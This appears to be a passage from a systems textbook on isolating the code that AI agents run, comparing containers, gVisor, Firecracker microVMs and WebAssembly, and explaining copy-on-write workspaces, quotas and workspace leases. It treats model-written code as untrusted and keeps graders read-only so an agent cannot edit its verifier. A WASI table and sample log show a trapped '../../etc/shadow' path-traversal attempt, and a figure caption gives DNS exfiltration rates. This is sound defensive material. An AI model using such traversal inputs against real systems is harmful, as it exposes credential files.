## Choosing an Isolation Envelope {#sec-vol3-sandboxes-microvms}

Three agent workloads show why no single envelope fits every tool call. An analysis agent evaluates a user-supplied regular expression against a log file, a few milliseconds of computation that it repeats hundreds of times in one trajectory. A coding agent installs packages, compiles, and runs a test suite over a trajectory that lasts forty minutes. An operations agent runs a binary that a customer uploaded. The question for each is what the untrusted code shares with the host, because whatever it shares, a bug can cross.

::: {#dfn-isolation-envelope .callout-definition title="Isolation envelope"}

***Isolation envelope***\index{Isolation envelope!definition} is the enforcement boundary around the code an agent's action runs, defined by what that code shares with the host (kernel, memory, files, network) and enforced by a layer the code cannot modify.

1.  **Significance**: The envelope sets the blast radius of a bug in the code or in the enforcement itself, and its start cost sets how often the runtime can afford a fresh one.
2.  **Distinction**: A capability limits which resources an action may name. The envelope limits what the code can reach when it ignores those names and attacks the layer beneath.
3.  **Common pitfall**: Choosing the envelope by convenience of packaging rather than by the code the agent will actually run.

:::

A **shared-kernel container** runs untrusted code as an ordinary host process whose view is narrowed by namespaces, whose resources are capped by control groups, and whose system calls are filtered. The filtering helps, but the code still calls straight into the host kernel, and a single exploitable kernel bug hands it the host. An agent that compiles and runs arbitrary native code behaves like a fuzzer aimed at that interface. Containers suit code the runtime or the operator wrote, not code the model wrote.

A **user-space kernel** [@google2019gvisor] intercepts the sandbox's system calls and reimplements them in a memory-safe process, so the host kernel sees only a small, fixed set of calls. The price falls on workloads that make many system calls, and builds, package installs, and version-control operations, the daily work of coding agents, are exactly those workloads. Compatibility gaps with the full Linux interface appear in the same places.

A **microVM** runs the code behind its own guest kernel, isolated by hardware virtualization. A guest that gains root access to its own kernel is still confined to the memory the hypervisor mapped for it, and what it can attack on the host shrinks to a minimal virtual machine monitor and the hypervisor interface. One such design [@agache2020firecracker] keeps only a handful of paravirtual devices and runs the monitor itself as an unprivileged, namespaced, system-call-filtered process, so a bug in the monitor lands inside a second envelope. Stripping the legacy device model is also what brings start cost down from the seconds of a conventional virtual machine to the range in which pooling works (@sec-vol3-sandboxes-pooling).

The spectrum of systems isolation envelopes is contrasted across attack surfaces in @fig-vol3-isolation-spectrum.

::: {#fig-vol3-isolation-spectrum fig-env="figure" fig-pos="htb" fig-cap="**Operating Systems Isolation Spectrum for Agent Runtimes**: Architectural boundaries and host attack surfaces across four isolation paradigms: OS Containers (Docker/runC), User-Space Kernels (gVisor Sentry), Software Fault Isolation (Wasm SFI), and Hardware MicroVMs (Firecracker). While containers expose the full monolithic host kernel (~450 syscalls) directly across Ring 3 to Ring 0 transitions, hardware microVMs trap execution in hardware via VT-x VMCS exits, presenting only ~35 minimal KVM ioctls to the host kernel." fig-alt="Systems architecture diagram comparing four isolation columns: OS Containers exposing 450 host syscalls to the host Linux kernel, gVisor Sentry filtering syscalls down to 50 via user-space Go runtime, Wasm SFI isolating computation in a 4 GB linear memory sandbox with zero host syscalls, and Firecracker microVM enforcing hardware VT-x non-root boundaries with two-dimensional EPT paging and only 35 host syscalls."}

:::

### Kernel attack surface: Shared kernels versus hardware traps

Operating system containers rely on the `clone(2)` system call with flags such as `CLONE_NEWPID`, `CLONE_NEWNET`, `CLONE_NEWNS`, and `CLONE_NEWUSER` to construct isolated namespaces. These namespaces are logical bookkeeping structures internal to the host kernel; they do not alter the fundamental execution model of user space code. Whenever an agentic tool execution inside a container issues a system call, the CPU transitions directly from Ring 3 (user space) to Ring 0 (kernel space) on the host processor. The host kernel's system call dispatcher validates arguments, executes the requested driver or memory management routine, and returns control to the process. Because the host kernel performs all mediation in software, any logical vulnerability in the kernel's memory management, IPC, or filesystem subsystems allows user-space code to execute arbitrary instructions with full supervisor privileges.

Hardware-assisted virtualization changes this boundary by utilizing hardware extensions such as Intel VT-x or AMD-V. The physical CPU operates in two distinct modes: VMX root operation and VMX non-root operation. The host hypervisor operates in VMX root mode, while the guest software—including both the guest operating system kernel and its sandboxed user processes—executes in VMX non-root mode. Within VMX non-root mode, standard computational instructions execute at native hardware speeds. However, sensitive operations—such as modifying control registers (`CR0`, `CR3`, `CR4`), executing privileged instructions (`CPUID`, `INVD`, `VMXON`), or attempting to program physical interrupt controllers—are intercepted directly by processor hardware. When a guest instruction violates an execution rule, the CPU suspends guest execution, stores the guest state in a physical memory structure known as the Virtual Machine Control Structure (VMCS), and initiates a `VM-Exit` trap back to the hypervisor in VMX root mode.

Memory virtualization under hardware-assisted virtualization is governed by two-dimensional page tables, known as Extended Page Tables (EPT) on Intel architectures or Nested Page Tables (NPT) on AMD architectures. When the sandboxed agent process translates a virtual memory address to access a variable, the processor's Memory Management Unit (MMU) performs a two-stage translation:

$$\text{Guest Virtual Address (GVA)} \xrightarrow{\text{Guest Page Table}} \text{Guest Physical Address (GPA)} \xrightarrow{\text{Extended Page Table (EPT)}} \text{Host Physical Address (HPA)}$$

The guest kernel possesses full administrative control over its internal page tables, allowing it to allocate virtual memory to its sub-processes without host intervention. However, the guest cannot modify the EPT root pointer (`EPTP`), which is configured and write-protected by the hypervisor in VMX root mode. Even if an adversarial agent payload executes an exploit that achieves complete root control over the guest Linux kernel, it remains physically trapped within its assigned GPA space. The guest kernel cannot address, inspect, or corrupt any host physical memory frame ($HPA$) outside the explicit ranges mapped by the host's EPT structures, establishing the boundary transitions compared in @tbl-vol3-isolation-transitions.

| Isolation Layer                | Transition Mechanism            | Trapping Entity     | Attack Surface              |
|:-------------------------------|:--------------------------------|:--------------------|:----------------------------|
| **Container (runC)**           | `syscall` (Ring 3 $\to$ 0)      | Host Linux Kernel   | $\approx 450$ host syscalls |
| **User-Space Kernel (gVisor)** | `ptrace` or KVM trap            | Sentry (User Space) | $\approx 50$ host syscalls  |
| **MicroVM (Firecracker)**      | `VM-Exit` (Non-Root $\to$ Root) | KVM Hypervisor      | $\approx 35$ host syscalls  |

: **Isolation Boundary Transition Mechanisms**: Comparison of transition mechanisms and host privilege exposure across isolation boundaries. {#tbl-vol3-isolation-transitions}

### Minimalist virtual machine architecture: The Firecracker design

Traditional open-source hypervisors such as QEMU support arbitrary hardware emulation, enabling virtual machines to boot legacy operating systems on top of arbitrary host platforms. Consequently, QEMU contains complex software models for legacy peripheral hardware, including floppy disk controllers, IDE and SATA disk interfaces, Intel e1000 network interface cards, PCI-to-PCI bridges, Sound Blaster audio cards, and extensive Advanced Configuration and Power Interface (ACPI) state machines. This versatility requires over 1.5 million lines of C code, presenting both a significant host memory footprint and an expansive attack surface susceptible to hypervisor escape vulnerabilities.

Firecracker, developed by @agache2020firecracker at Amazon Web Services, discards the legacy PC platform model entirely in favor of an aggressively minimalist Virtual Machine Monitor (VMM). Implemented in memory-safe Rust, Firecracker leverages the Linux Kernel-based Virtual Machine (`/dev/kvm`) ioctl API to manage hardware virtualization while stripping all emulated hardware components down to the absolute minimum required for modern ephemeral workloads.

Firecracker completely eliminates the PCI bus hierarchy, ACPI tables, and legacy BIOS/UEFI firmware initialization routines. Instead of emulating PCI devices, Firecracker exposes virtualized peripherals exclusively via VirtIO over Memory-Mapped I/O (VirtIO-MMIO). Device registers are mapped to fixed, contiguous guest physical memory address ranges hardcoded into kernel launch parameters. Firecracker provides exactly four virtual device types:

1. **`virtio-block`:** An asynchronous block device interface that provides the guest with a virtual disk backed by a host file or raw device node.
2. **`virtio-net`:** A network interface bridging the guest network stack directly to a host Linux TAP device.
3. **`virtio-vsock`:** A zero-configuration virtual socket interface enabling bidirectional, multiplexed, packet-based IPC between host user-space daemons and guest services without network routing or IP assignment.
4. **Serial Console and Timer:** A stripped-down 8250 UART serial console for debug logging, alongside an emulated programmable interval timer (PIT) and real-time clock (RTC).

Because Firecracker avoids legacy BIOS and UEFI firmware stages, the hypervisor boots the guest kernel through a direct kernel boot path. The host Firecracker process reads an uncompressed 64-bit Linux kernel binary (`vmlinux`) from disk, maps it directly into guest physical memory at a predetermined offset, and populates the x86 64-bit boot protocol data structure (the `boot_params` "zero page"). Firecracker writes kernel command-line arguments directly into guest memory—specifying the root filesystem location and fixed MMIO base addresses—and immediately calls the `KVM_RUN` ioctl.

The defense-in-depth isolation boundary of a Firecracker microVM is diagrammed in @fig-vol3-firecracker-architecture.

::: {#fig-vol3-firecracker-architecture fig-env="figure" fig-pos="htb" fig-cap="**Layered Defense Architecture of a Firecracker MicroVM**: Structural containment model spanning the host supervisor, Jailer boundary, minimalist Rust VMM, and hardware-isolated guest partition. The Jailer applies `chroot`, `cgroups v2`, and `seccomp-bpf` filtering ($\le 35$ host syscalls) before launching the VMM. The guest microVM executes in Intel VT-x VMX non-root mode, where memory accesses are translated through two-dimensional Extended Page Tables ($GPA \to HPA$), device communication is restricted to fixed MMIO windows, and filesystem mutations are trapped in an ephemeral OverlayFS UpperDir backed by RAM tmpfs." fig-alt="Systems architecture diagram illustrating the Firecracker microVM containment hierarchy: Host Orchestrator launching an unprivileged Jailer envelope with seccomp-bpf filters, containing a minimalist Rust VMM that manages VirtIO-MMIO device windows (virtio-block, virtio-net, virtio-vsock), separated by an Intel VT-x hardware boundary from the guest microVM executing in VMX non-root mode with EPT memory translation and tmpfs OverlayFS storage."}

:::

### Multi-tenant defense-in-depth: The Firecracker jailer

Although Firecracker is written in memory-safe Rust and interacts with the host kernel via a bounded KVM interface, robust systems engineering assumes that any software component can fail. If an attacker discovers a vulnerability within the virtio emulation logic or identifies an unpatched defect in the KVM kernel module itself, a malicious payload inside the microVM could compromise the Firecracker VMM process on the host.

To neutralize this escalation vector, Firecracker enforces a defense-in-depth architecture using an auxiliary host-level security wrapper known as the *Firecracker Jailer*. The Jailer binary executes with host administrative privileges (`root`) prior to booting the microVM, applies a strict four-layer isolation envelope around the execution context, drops all host privileges, and executes the Firecracker VMM process via `execve(2)`, following the multi-stage privilege demotion sequence in @tbl-vol3-jailer-pipeline.

| Pipeline Stage             | Subsystem Target | Kernel Primitives & System Calls                                    | Execution Context                     | Containment Invariant Established                                    |
|:---------------------------|:-----------------|:--------------------------------------------------------------------|:--------------------------------------|:---------------------------------------------------------------------|
| **1. Root Bootstrap**      | Host Process     | `clone()`, PID allocation                                           | Privileged Host Root (`UID=0, GID=0`) | Allocates per-instance metadata and working directories.             |
| **2. Namespace Isolation** | Linux Namespaces | `unshare(CLONE_NEWNS + CLONE_NEWPID + CLONE_NEWNET + CLONE_NEWIPC)` | Isolated Namespace Boundaries         | Isolates VFS mounts, PID hierarchy, network routes, and IPC queues.  |
| **3. Filesystem Chroot**   | VFS Mounts       | `mount(--bind)`, `chroot(jail_dir)`, `chdir("/")`                   | Confined Root Directory               | Strips access to host root; exposes only kernel binary and socket.   |
| **4. Cgroup Quotas**       | `cgroups v2`     | Writes to `cpu.max`, `memory.max`, `pids.max = 2 + N_vcpus`         | Resource-Capped Slice                 | Bounds CPU consumption, hard-caps RAM, and blocks fork bombs.        |
| **5. Privilege Demotion**  | Credentials      | `setresgid(jail_gid)`, `setresuid(jail_uid)`, `capng_clear()`       | Unprivileged Context (`UID > 10000`)  | Eradicates all ambient POSIX capabilities (`CAP_SYS_ADMIN`, etc.).   |
| **6. Syscall Lockdown**    | `seccomp-bpf`    | `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, ...)`                   | Hardened Kernel Boundary              | Enforces default-deny allowlist of ~35 syscalls; `SIGSYS` on breach. |
| **7. Process Replacement** | Execution Image  | `execve("/usr/bin/firecracker", argv, envp)`                        | Fully Jailed MicroVM VMM              | Runs VMM with zero ambient authority on host filesystem or network.  |

: **Sequential Privilege Demotion and Containment Pipeline of the Firecracker Jailer**: Seven-stage hardening sequence executed prior to microVM initialization. {#tbl-vol3-jailer-pipeline}

### Bytecode sandboxes and capability mediation {#sec-vol3-sandboxes-wasm}

A **bytecode sandbox** such as WebAssembly [@haas2017bringing] confines code to a bounded linear memory that the runtime validates before execution, and the code has no system-call instruction at all. Linear memory is allocated as a contiguous, unaliased array of bytes spanning up to 4 GB in Wasm32. Every load and store instruction operates on zero-based unsigned 32-bit offsets relative to this base pointer. During compilation or ahead-of-time (AOT) translation, the WebAssembly engine inserts hardware or software bounds checks on every memory dereference, or sandwiches the 4 GB allocation between unmapped virtual memory guard pages. Any attempt by guest code to dereference an out-of-bounds pointer triggers an immediate hardware `SIGSEGV` caught by the host runtime, aborting execution before foreign memory can be inspected or corrupted.

To interact with the outside world, a WebAssembly module relies on the WebAssembly System Interface (WASI). WASI standardizes host imports through a pure capability-based security model enforcing zero ambient authority at the module boundary. The host opens specific directory handles and injects them into the module's file descriptor table during instantiation. The guest cannot access any filesystem path outside those capability handles, as verified in @tbl-vol3-wasi-callgate.

| Invocation Step                 | Guest Module Call                              | Host Runtime Validation Checks                                                                         | Host Kernel Action                                     | Return Value to Guest                |
|:--------------------------------|:-----------------------------------------------|:-------------------------------------------------------------------------------------------------------|:-------------------------------------------------------|:-------------------------------------|
| **1. Authorized File Access**   | `path_open(dir_fd=3, path="data.json")`        | Validates `dir_fd=3` is an open directory handle; checks canonical path stays within root of `dir_fd`. | Mints scoped child file descriptor in host kernel.     | `Ok(file_fd=4)` (Unforgeable handle) |
| **2. Traversal Escape Attempt** | `path_open(dir_fd=3, path="../../etc/shadow")` | Resolves path against directory root; detects attempted escape out of sandbox root.                    | Blocks host VFS call; logs capability violation event. | `Err(WASI_ERRNO_NOTCAPABLE)`         |

: **WebAssembly WASI Capability Call Gate Resolution Sequence**: Step-by-step verification of guest module filesystem requests against pre-opened directory capabilities. {#tbl-vol3-wasi-callgate}

```bash
# Host WASI Complete Mediation Trap
[2026-09-19T10:18:04.210Z] WARN  wasm_runtime: Module invoked fd_readdir(fd=3, cookie=0) -> OK
[2026-09-19T10:18:04.214Z] ERROR wasm_runtime: Module invoked path_open(fd=3, path="../../etc/shadow", flags=0)
[2026-09-19T10:18:04.215Z] SECURITY_FAULT wasm_runtime: Path traversal escape detected; trapped with WASI_ERRNO_NOTCAPABLE
```
### Matching the envelope to the action {#sec-vol3-sandboxes-envelope-choice}

@Tbl-vol3-isolation-taxonomy summarizes the four envelopes. Representative start-up and memory measurements for current implementations appear in @tbl-vol3-app-ref-arch-sandboxes; the orders of magnitude are what drive the choice.

| Envelope                    | What untrusted code shares with the host             | Code it can run                                       | Start cost                   | Fits                                                       |
|:----------------------------|:-----------------------------------------------------|:------------------------------------------------------|:-----------------------------|:-----------------------------------------------------------|
| **Shared-kernel container** | The whole host kernel interface, filtered            | Any Linux user-space program                          | Sub-second                   | Trusted code; read-only work with no secrets in reach      |
| **User-space kernel**       | A small set of host calls behind an emulating kernel | Most Linux programs, slower on system-call-heavy work | Sub-second                   | Untrusted interpreted code with modest input and output    |
| **MicroVM**                 | A minimal monitor and the hypervisor interface       | Any Linux program, on its own kernel                  | Milliseconds from a snapshot | Untrusted native code, package installs, multi-turn coding |
| **Bytecode sandbox**        | Only the functions the host imports                  | Code compiled to the bytecode target                  | Microseconds                 | Pure computation, parsers, per-call tools                  |

: **Isolation Envelopes for Agent Code**: Four envelopes compared by what untrusted code shares with the host, what it can run, and the order of magnitude of its start cost. {#tbl-vol3-isolation-taxonomy}

```{python}
#| label: calc-vol3-sandbox-envelope-amortization
#| echo: false
# ┌─────────────────────────────────────────────────────────────────────────────
# │ MICROVM START COST PER CALL VS. PER TRAJECTORY (LEGO)
# ├─────────────────────────────────────────────────────────────────────────────
# │ Context: The duration argument in @sec-vol3-sandboxes-envelope-choice.
# │
# │ Goal: Show that the same microVM start cost dominates a millisecond tool
# │       call and vanishes across a long coding trajectory.
# │ Show: Start cost as a multiple of one short call, and as a share of one
# │       trajectory that reuses the envelope.
# │ How:  Snapshot-restore latency from the illustrative MLSysIM coding-agent
# │       sandbox profile, divided by each workload's duration.
# └─────────────────────────────────────────────────────────────────────────────
from mlsysim import *

class EnvelopeAmortization:
    # ┌── 1. LOAD (Constants & Parameters) ─────────────────────────────────
    t_restore = Agents.Coding.SWE_Bench_Runner.sandbox_snapshot_restore_latency  # fresh microVM from snapshot
    t_regex_call = 3 * ms  # scenario assumption: one regular-expression tool call
    t_trajectory = 40 * minute  # scenario assumption: one multi-turn coding trajectory

    # ┌── 2. EXECUTE (Compute) ─────────────────────────────────────────────
    per_call_multiple = (t_restore / t_regex_call).to("dimensionless").magnitude
    per_trajectory_share = (t_restore / t_trajectory).to("dimensionless").magnitude

    # ┌── 3. GUARD (Invariants) ───────────────────────────────────────────
    check(per_call_multiple > 1, "Start cost must exceed the short call for the contrast to hold")
    check(per_trajectory_share < 1e-3, "Start cost must be negligible across the trajectory")

    # ┌── 4. OUTPUT (Formatting) ──────────────────────────────────────────
    t_restore_str = fmt(t_restore, unit="ms", precision=0)
    t_regex_call_str = fmt(t_regex_call, unit="ms", precision=0)
    t_trajectory_str = fmt_int(t_trajectory.magnitude)
    per_call_mult_str = fmt_multiple(per_call_multiple)
    per_trajectory_share_str = fmt_percent(per_trajectory_share, precision=4, style="prose")
```

The choice follows from three properties of the action. The first is the code it runs. Pure computation fits a bytecode sandbox, arbitrary Linux programs need a user-space kernel or a microVM, and only trusted code belongs in a shared-kernel container. The second is the authority it holds. At $A_1$ the envelope is the entire guarantee, so model-written code gets its own kernel, while at $A_2$ and $A_3$ the envelope must be paired with brokering and gates, since it cannot contain an external effect. The third is duration, the horizon exposure at work. Restoring a microVM from its snapshot takes about `{python} EnvelopeAmortization.t_restore_str` ms in the illustrative coding-agent sandbox profile this chapter uses, `{python} EnvelopeAmortization.per_call_mult_str` the work of a `{python} EnvelopeAmortization.t_regex_call_str` ms regular-expression call, yet only `{python} EnvelopeAmortization.per_trajectory_share_str` of a `{python} EnvelopeAmortization.t_trajectory_str`-minute coding trajectory that reuses the same envelope for hundreds of turns. The three workloads that opened the section therefore land in three places. The regular-expression tool runs in a fresh bytecode sandbox per call, the coding agent holds one microVM for its whole trajectory, and the customer binary runs in a microVM that holds no credentials and has egress denied.

An envelope bounds what a process can touch. A coding agent's work, however, lives in files that must survive from one turn to the next, and the envelope alone says nothing about where those files come from or where they go.

## The Agent Workspace {#sec-vol3-sandboxes-cow}

On turn twelve a coding agent edits three files, on turn thirty-one it runs the test suite, and on turn forty the harness collects its change. Running every tool call in a fresh sandbox would discard the edits between turns. Running the trajectory in the developer's own checkout would let a stray `rm -rf` destroy the ground truth that other trajectories and people depend on. Copying the repository and toolchain for every trajectory preserves both, but it moves gigabytes per trajectory, and parallel trajectories multiply those bytes by their number. The workspace is the task's $S_2$ state in the terms of @sec-vol3-intro-hsa, artifacts carried across turns inside a sandbox the runtime can discard, and it needs a cheaper construction than any of the three.

A copy-on-write overlay provides it. A read-only base image, holding the repository at a fixed commit together with its toolchain and installed dependencies, is shared by every trajectory working on that task. Each trajectory gets its own writable upper layer stacked on top. A read falls through to the base image, so unchanged files are served from one copy in the host page cache no matter how many trajectories read them. The first write to a file copies it into the upper layer, and a deletion records a marker in the upper layer that hides the base file. Starting a workspace therefore costs a mount rather than a copy, and at the end the upper layer holds exactly what the trajectory changed, which is also the diff it produced.

Copy-on-write has one trap worth planning for. The copy happens at file granularity, so appending a single line to a large binary fixture copies the whole fixture into the upper layer, and many trajectories doing so at once saturate the host's storage bandwidth. Marking large fixtures read-only, keeping large data outside the image, or using block-level snapshots for data-heavy tasks keeps a one-line write from costing a gigabyte. Notebook \ref{nbk-08-workspace-copy-vs-overlay} prices the three cases for one evaluation host.

```{python}
#| label: calc-vol3-sandbox-workspace-cost
#| echo: false
# ┌─────────────────────────────────────────────────────────────────────────────
# │ COPYING VS. OVERLAYING A WORKSPACE, AND THE COPY-UP TRAP (LEGO)
# ├─────────────────────────────────────────────────────────────────────────────
# │ Context: The workspace worked example in @sec-vol3-sandboxes-cow.
# │
# │ Goal: Compare the bytes written and the time to start parallel trajectory
# │       workspaces by full copy and by copy-on-write overlay, and price one
# │       small append to a large fixture under copy-up.
# │ Show: Bytes written and minimum write time for each design.
# │ How:  Bytes divided by the sequential bandwidth of one local NVMe drive
# │       (a lower bound, since writes are no faster than sequential reads).
# └─────────────────────────────────────────────────────────────────────────────
from mlsysim import *

class WorkspaceCost:
    # ┌── 1. LOAD (Constants & Parameters) ─────────────────────────────────
    disk_bw = Hardware.Tech.Storage.NvmeGen4.bandwidth  # one local NVMe drive, sequential
    trajectories = 32  # scenario assumption: parallel trajectories on one host
    base_image = 2.4 * GB  # scenario assumption: repository, toolchain, and dependencies
    written = 40 * MB  # scenario assumption: edits and build outputs per trajectory
    fixture = 1.2 * GB  # scenario assumption: binary test fixture in the base image

    # ┌── 2. EXECUTE (Compute) ─────────────────────────────────────────────
    copy_bytes = (trajectories * base_image).to("GB")
    copy_time = (copy_bytes / disk_bw).to("s")
    overlay_bytes = (trajectories * written).to("GB")
    overlay_time = (overlay_bytes / disk_bw).to("s")
    trap_bytes = (trajectories * fixture).to("GB")
    trap_time = (trap_bytes / disk_bw).to("s")
    copy_vs_overlay = (copy_bytes / overlay_bytes).to("dimensionless").magnitude

    # ┌── 3. GUARD (Invariants) ───────────────────────────────────────────
    check(overlay_bytes < copy_bytes, "The overlay must write less than a full copy")
    check(trap_bytes > overlay_bytes, "One copy-up of the fixture must dwarf the trajectory's own writes")

    # ┌── 4. OUTPUT (Formatting) ──────────────────────────────────────────
    disk_bw_str = fmt(disk_bw.to("GB/s"), precision=0)
    trajectories_str = fmt_int(trajectories)
    base_image_str = fmt(base_image.magnitude, precision=1)
    written_str = fmt_int(written.magnitude)
    fixture_str = fmt(fixture.magnitude, precision=1)
    copy_bytes_str = fmt(copy_bytes.magnitude, precision=1)
    copy_time_str = fmt_int(copy_time.magnitude)
    overlay_bytes_str = fmt(overlay_bytes.magnitude, precision=2)
    overlay_time_str = fmt(overlay_time.magnitude, precision=2)
    trap_bytes_str = fmt(trap_bytes.magnitude, precision=1)
    trap_time_str = fmt(trap_time.magnitude, precision=1)
    copy_vs_overlay_str = fmt_int(copy_vs_overlay)
```

::: {#nbk-08-workspace-copy-vs-overlay .callout-notebook title="Starting parallel workspaces, and the copy-up trap"}

**Problem**: An evaluation host starts `{python} WorkspaceCost.trajectories_str` coding trajectories at once on the same task. The base image, holding the repository, its toolchain, and its dependencies, is `{python} WorkspaceCost.base_image_str` GB, and each trajectory writes about `{python} WorkspaceCost.written_str` MB of edits and build outputs. The image also contains a `{python} WorkspaceCost.fixture_str` GB binary test fixture. The workspaces sit on one local NVMe drive that moves about `{python} WorkspaceCost.disk_bw_str` GB/s sequentially. What does each design write, and how long does the disk take at best?

**Full copy.** Every trajectory copies the image before its first turn, `{python} WorkspaceCost.copy_bytes_str` GB in all, which keeps the disk busy for at least `{python} WorkspaceCost.copy_time_str` s before any agent runs and holds `{python} WorkspaceCost.trajectories_str` redundant copies in the page cache.

**Overlay.** Starting a workspace is a mount, and only what the trajectories write reaches the disk, `{python} WorkspaceCost.overlay_bytes_str` GB over the whole run, about `{python} WorkspaceCost.overlay_time_str` s of disk time and `{python} WorkspaceCost.copy_vs_overlay_str` times fewer bytes than the copy.

**Copy-up trap.** If a test script appends one line to the fixture, every trajectory copies the whole fixture into its upper layer. Together they write `{python} WorkspaceCost.trap_bytes_str` GB, a stall of at least `{python} WorkspaceCost.trap_time_str` s caused by a one-line write.

**Systems insight**: The overlay makes starting a workspace nearly free and makes its cost track what the agent changes, not what it can see. Its one failure mode scales with the size of the files an agent touches, so large fixtures belong outside the writable path.

:::

### Layered virtual filesystem topologies and copy-up mechanics

Modern Linux execution sandboxes implement copy-on-write storage isolation primarily through *OverlayFS*, a kernel union filesystem integrated into the upstream Linux virtual file system (VFS). OverlayFS multiplexes two or more directory trees into a unified namespace presented to user space:

1. **`lowerdir`:** One or more read-only underlying directories containing the base operating system rootfs, language runtimes, and baseline Git repository checkout.
2. **`upperdir`:** A private, writable directory where all file modifications, creations, and deletion markers are recorded.
3. **`workdir`:** An empty auxiliary directory on the same filesystem as `upperdir` used by the kernel to prepare atomic directory and file operations.
4. **`merged`:** The virtual mount point presented to the sandboxed agent process.

```bash
# Establishing a copy-on-write workspace for an agent sandbox
mount -t overlay overlay -o lowerdir=/images/golden_repo,upperdir=/sandboxes/agent_42/upper,workdir=/sandboxes/agent_42/work /sandboxes/agent_42/merged
```

The virtual filesystem hierarchy and component responsibilities are detailed in @tbl-vol3-overlayfs-layers.

| Layer Identifier     | Mount Parameter      | POSIX Access          | Storage Backing               | Kernel Inode Mediation Role                                                                                                          |
|:---------------------|:---------------------|:----------------------|:------------------------------|:-------------------------------------------------------------------------------------------------------------------------------------|
| **Merged View**      | `merged` mount point | Read-Write            | Synthetic VFS Union           | Presents a unified filesystem tree to the sandboxed agent. Mediates path traversal lazily between upper and lower layers.            |
| **Upper Scratchpad** | `upperdir`           | Read-Write            | Ephemeral Host Storage        | Captures all new files, modified files copied up via `ovl_copy_up`, directory structures, and `0/0` character device whiteouts.      |
| **Staging Workdir**  | `workdir`            | Read-Write (Internal) | Same Filesystem as `upperdir` | Used by the kernel to stage intermediate file writes and atomic renames, preventing torn writes from corrupting the workspace.       |
| **Lower Baseline**   | `lowerdir`           | Read-Only             | Immutable Golden Image        | Shared base filesystem containing pristine source code, compilers, and toolchains. Shared read-only across all concurrent sandboxes. |

: **OverlayFS Layer Hierarchy and Inode Virtualization Roles**: Directory roles, access privileges, and kernel mediation dynamics in copy-on-write workspace virtualization. {#tbl-vol3-overlayfs-layers}

When an agent executes `open(path, O_RDONLY)`, the VFS resolves the path through `upperdir` first; if absent, it falls back to `lowerdir`, providing read access at native filesystem speeds without copying. However, when an agent opens an existing lower-layer file with write intent (`O_WRONLY` or `O_RDWR`), OverlayFS initiates a synchronous *copy-up* operation: the kernel allocates a new inode in `upperdir`, copies the entire file contents from `lowerdir` into `upperdir`, copies extended attributes, and redirects the file descriptor to the newly created replica, governing the POSIX operations summarized in @tbl-vol3-overlayfs-operations.

| POSIX Operation              | State in `lowerdir` | Initial State in `upperdir` | Action Taken by Kernel                                   | Visible State in `merged`     |
|:-----------------------------|:--------------------|:----------------------------|:---------------------------------------------------------|:------------------------------|
| **Read File** (`O_RDONLY`)   | Exists              | Absent                      | Reads lower inode directly; zero copy                    | File contents from `lowerdir` |
| **Modify File** (`O_RDWR`)   | Exists              | Absent                      | Triggers `ovl_copy_up`; copies entire file to `upperdir` | Mutable file in `upperdir`    |
| **Create File** (`O_CREAT`)  | Absent              | Absent                      | Allocates new inode directly in `upperdir`               | Newly created upper file      |
| **Delete File** (`unlink`)   | Exists              | Absent                      | Creates `0/0` character device whiteout in `upperdir`    | File absent (`-ENOENT`)       |
| **Delete File** (`unlink`)   | Exists              | Exists (Copied up)          | Unlinks upper file; replaces with `0/0` whiteout         | File absent (`-ENOENT`)       |
| **Wipe Directory** (`rmdir`) | Directory Exists    | Absent                      | Creates directory in `upperdir` with opaque xattr        | Empty directory (`.`, `..`)   |

: **OverlayFS POSIX Operations and Inode Lifecycle Dynamics**: Kernel-level resolution and copy-up behavior across lower and upper layers during agent execution. {#tbl-vol3-overlayfs-operations}

To handle deletions without mutating the immutable baseline, OverlayFS creates special *whiteout markers*. When an agent runs `rm tests/test_cases.py`, the kernel creates a character device in `upperdir` with major/minor device numbers set to zero:

$$\text{dev\_t} = \text{makedev}(0, 0)$$

Subsequent path lookups encountering the `0/0` character device mask the lower file and return `-ENOENT`.

#### The copy-up write amplification trap

The copy-up mechanism introduces a subtle but severe performance pitfall: write amplification on large fixtures. If a coding agent appends a single byte to a 5 GB SQLite database, machine learning model weight file, or binary test fixture residing in `lowerdir`, OverlayFS must copy all 5 GB to `upperdir` before executing the 1-byte append:

```bash
# Triggering a 5 GB copy-up by appending a timestamp to a test fixture
echo "TEST_EPOCH=1719200000" >> tests/fixtures/test_suite.bin
```

This copy-up locks the file's dentry, exhausts storage bandwidth, and can stall agent execution for tens of seconds. Systems designers mitigate this by decomposing large fixtures into chunked assets or mounting large read-only fixtures on dedicated read-only loopback devices bypassing the overlay.

#### Scratchpad storage quota enforcement

To prevent denial-of-service via disk exhaustion (such as an unconstrained model generating infinite output loops), runtimes enforce strict storage quotas on `upperdir` using XFS project quotas or backing `upperdir` with a size-bounded `tmpfs`:

```bash
# Assigning a 2 GB storage quota to an agent's upper scratchpad directory
xfs_quota -x -c 'project -s -p /sandboxes/agent_42/upper 42' /sandboxes
xfs_quota -x -c 'limit -p bsoft=2g bhard=2g 42' /sandboxes
```

### Workspace leases per trajectory, reset per tenant {#sec-vol3-sandboxes-lease}

The workspace's lifetime follows from the horizon exposure. The runtime binds the workspace, the envelope, the egress identity, and the brokered credentials into one *workspace lease* scoped to the trajectory. Unlike the in-flight lease of @sec-vol3-tool-calling-idempotency, which guards one call against duplicate execution, a workspace lease owns an environment for a whole trajectory. Everything in the lease persists across turns, because a multi-turn agent needs its earlier edits and its warmed build cache, and everything ends when the trajectory ends. The lease carries a hard expiry so that an abandoned trajectory cannot hold a sandbox indefinitely, and the trajectory record that holds it belongs to the harness (@sec-vol3-controlplane-acb). When the lease ends, the runtime exports the upper layer as a diff for evaluation or approval and then discards it. Nothing in a workspace is ever handed to another trajectory or tenant. What must survive a crash of the harness itself, rather than the normal end of a lease, is the subject of @sec-vol3-durable-execution.

Three further rules make the workspace safe to hand to model-written code. The upper layer sits on a filesystem with a storage and file-count quota, so a runaway build or a deliberate disk-filling loop exhausts only its own allowance. The envelope's control groups cap CPU, memory, and process count for the same reason. Test fixtures and grading scripts are mounted read-only from outside the writable layer, so the agent can run its verifier but cannot edit it, which is the workspace half of the sealed evaluation built in @sec-vol3-evaluation-gyms.

The workspace bounds what code can change. The README attack, however, needed only to send something, and sending happens over the network.

## Egress Control {#sec-vol3-sandboxes-network}

::: {.column-margin}
{width="100%" fig-alt="Two log-scale horizontal bars comparing covert DNS exfiltration bandwidth: an unrestricted channel at 234 kilobytes per second exfiltrates in 0.28 seconds, while a rate-clamped resolver drops bandwidth to 30 bytes per second, stretching exfiltration to 36.4 minutes."}

